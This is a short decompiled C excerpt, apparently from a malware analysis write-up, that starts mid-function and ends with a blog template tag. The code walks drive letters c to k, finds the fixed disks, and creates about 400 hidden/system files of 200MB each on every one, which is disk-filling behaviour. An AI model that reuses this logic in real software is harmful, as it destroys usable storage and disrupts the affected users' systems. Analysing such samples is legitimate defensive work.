   UINT result; // eax@2
  int v3; // esi@3
  CHAR RootPathName; // [sp+10h] [bp-14h]@2
  int v5; // [sp+18h] [bp-Ch]@1
  int v6; // [sp+1Ch] [bp-8h]@1
  __int16 v7; // [sp+20h] [bp-4h]@1

  v5 = dword_409040;                            // 'cdef'
  v6 = dword_409044;                            // 'ghij'
  v7 = word_409048;                             // 'k'
  v0 = 0;
  do
  {
    v1 = *((_BYTE *)&v5 + v0);
    wsprintfA(&RootPathName, aC_0, *((_BYTE *)&v5 + v0));
    strcat(&RootPathName, asc_409038);
    result = GetDriveTypeA(&RootPathName);
    if ( result == 3 ) // fixed disc
    {
      v3 = 1;
      do
        result = sub_401000(v1, v3++);
      while ( v3 < 400 ); // create 400 * 200MB files on a fixed disc
    }
    ++v0;
  }
  while ( v0 < 9 );
  return result;
}

signed int __cdecl sub_401000(char a1, int a2)
{
  HANDLE v2; // eax@1
  void *v3; // esi@1
  signed int result; // eax@2
  CHAR FileName; // [sp+8h] [bp-104h]@1

  memset(&FileName, 0, 0x104u);
  wsprintfA(&FileName, aCD, a1, a2);
  v2 = CreateFileA(&FileName, 0x10000000u, 0, 0, 1u, 6u, 0);
  v3 = v2;
  if ( v2 == (HANDLE)-1 )
  {
    result = 0;
  }
  else
  {
    SetFilePointer(v2, 209715200, 0, 0); // 200MB
    SetEndOfFile(v3); // change the file size to 200MB
    CloseHandle(v3);
    result = 1;
  }
  return result;
}
{% endhighlight %}
